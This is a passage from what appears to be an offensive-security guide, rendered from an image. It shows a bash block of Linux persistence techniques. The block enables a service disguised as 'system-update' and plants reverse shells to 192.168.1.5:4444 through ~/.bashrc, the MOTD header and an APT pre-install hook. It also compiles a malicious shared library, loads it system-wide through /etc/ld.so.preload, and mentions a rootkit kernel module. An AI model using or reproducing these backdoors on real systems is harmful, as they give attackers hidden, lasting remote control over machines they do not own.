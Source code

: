 ```bash

[Install]
WantedBy=multi-user.target
EOF

systemctl enable system-update.service
systemctl start system-update.service

# .bashrc persistence
echo 'nohup bash -c "bash -i >& /dev/tcp/192.168.1.5/4444 0>&1" 2>/dev/null &' >> ~/.bashrc

# Kernel module persistence (advanced)
# Create loadable kernel module for rootkit functionality
# Requires kernel development knowledge

# MOTD persistence
echo 'bash -i >& /dev/tcp/192.168.1.5/4444 0>&1 &' >> /etc/update-motd.d/00-header

# APT backdoor (for systems using APT)
echo 'DPkg::Pre-Install-Pkgs {"/bin/bash -c \"bash -i >& /dev/tcp/192.168.1.5/4444 0>&1\"";};' >> /etc/apt/apt.conf

# Library hijacking persistence
# Create malicious shared library
cat > /tmp/libhijack.c << 'EOF'
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void _init() {
    if (fork() == 0) {
        system("bash -c 'bash -i >& /dev/tcp/192.168.1.5/4444 0>&1'");
    }
}
EOF

gcc -shared -fPIC -nostartfiles -o /lib/libhijack.so /tmp/libhijack.c
echo "/lib/libhijack.so" >> /etc/ld.so.preload

# Why multiple Linux persistence methods:
# - Cron jobs provide scheduled execution
# - SSH keys enable legitimate access
# - Services provide system-level persistence
# - Shell profiles trigger on user login
# - MOTD triggers on SSH connections
# - Library hijacking affects system-wide execution
```

## Evasion and Stealth Techniques
